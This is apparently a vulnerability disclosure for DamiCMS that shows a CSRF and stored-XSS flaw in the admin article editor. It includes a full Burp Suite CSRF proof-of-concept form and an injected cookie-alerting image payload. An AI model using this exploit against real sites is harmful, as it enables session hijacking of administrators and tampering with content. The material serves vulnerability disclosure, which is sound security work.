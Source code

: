 Malicious JavaScript has access to all the same objects as the rest of the web page, including access to cookies and local storage, which are often used to store session tokens. If an attacker can obtain a user's session cookie, they can then impersonate that user.

After the administrator login in,open the poc
poc：


```html<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="http://172.16.100.28/damicms-master/admin.php?s=/Article/doedit" method="POST">
      <input type="hidden" name="title" value="æµ&#139;è&#175;&#149;äº&#167;å&#147;&#129;&lt;img&#32;src&#61;&quot;x&quot;&#32;onerror&#61;alert&#40;document&#46;cookie&#41;&#32;&gt;" />
      <input type="hidden" name="TitleFontColor" value="" />
      <input type="hidden" name="keywords" value="" />
      <input type="hidden" name="description" value="å&#158;&#139;å&#143;&#183;&#58;&#32;ä&#187;&#183;æ&#160;&#188;ï&#188;&#154;é&#157;&#162;è&#174;&#174;&#32;é&#162;&#156;è&#137;&#178;&#58;" />
      <input type="hidden" name="hits" value="69" />
      <input type="hidden" name="typeid" value="24" />
      <input type="hidden" name="imgurl" value="&#47;Public&#47;Uploads&#47;thumb&#47;thumb&#95;1393207060&#46;jpg" />
      <input type="hidden" name="isimg" value="1" />
      <input type="hidden" name="content" value="androidå&#188;&#128;å&#143;&#145;&lt;span&#32;style&#61;&quot;white&#45;space&#58;normal&#59;&quot;&gt;androidå&#188;&#128;å&#143;&#145;&lt;span&#32;style&#61;&quot;white&#45;space&#58;normal&#59;&quot;&gt;androidå&#188;&#128;å&#143;&#145;&lt;span&#32;style&#61;&quot;white&#45;space&#58;normal&#59;&quot;&gt;androidå&#188;&#128;å&#143;&#145;&lt;span&#32;style&#61;&quot;white&#45;space&#58;normal&#59;&quot;&gt;androidå&#188;&#128;å&#143;&#145;&lt;span&#32;style&#61;&quot;white&#45;space&#58;normal&#59;&quot;&gt;androidå&#188;&#128;å&#143;&#145;&lt;span&#32;style&#61;&quot;white&#45;space&#58;normal&#59;&quot;&gt;androidå&#188;&#128;å&#143;&#145;&lt;span&#32;style&#61;&quot;white&#45;space&#58;normal&#59;&quot;&gt;androidå&#188;&#128;å&#143;&#145;&lt;span&#32;style&#61;&quot;white&#45;space&#58;normal&#59;&quot;&gt;androidå&#188;&#128;å&#143;&#145;&lt;span&#32;style&#61;&quot;white&#45;space&#58;normal&#59;&quot;&gt;androidå&#188;&#128;å&#143;&#145;&lt;span&#32;style&#61;&quot;white&#45;space&#58;normal&#59;&quot;&gt;androidå&#188;&#128;å&#143;&#145;&lt;span&#32;style&#61;&quot;white&#45;space&#58;normal&#59;&quot;&gt;androidå&#188;&#128;å&#143;&#145;&lt;span&#32;style&#61;&quot;white&#45;space&#58;normal&#59;&quot;&gt;androidå&#188;&#128;å&#143;&#145;&lt;span&#32;style&#61;&quot;white&#45;space&#58;normal&#59;&quot;&gt;androidå&#188;&#128;å&#143;&#145;&lt;span&#32;style&#61;&quot;white&#45;space&#58;normal&#59;&quot;&gt;androidå&#188;&#128;å&#143;&#145;&lt;&#47;span&gt;&lt;&#47;span&gt;&lt;&#47;span&gt;&lt;&#47;span&gt;&lt;&#47;span&gt;&lt;&#47;span&gt;&lt;&#47;span&gt;&lt;&#47;span&gt;&lt;&#47;span&gt;&lt;&#47;span&gt;&lt;&#47;span&gt;&lt;&#47;span&gt;&lt;&#47;span&gt;&lt;&#47;span&gt;" />
      <input type="hidden" name="price" value="4000" />
      <input type="hidden" name="color" value="ç&#129;&#176;è&#137;&#178;" />
      <input type="hidden" name="product&#95;xinghao" value="M002457J" />
      <input type="hidden" name="submit" value="ä&#191;&#174;æ&#148;&#185;" />
      <input type="hidden" name="aid" value="66" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

damicms-master/admin.php?s=/Index/index
Successfully inserted <img src="x" onerror=alert(document.cookie)>

![描述](https://github.com/wind-cyber/DamiCMS-v6.0.0-have-csrf-and-xss-Vulnerabilities-/blob/master/rpng/ZS4DTJV2YV%5DB6QRAEP0%25FH8.png)


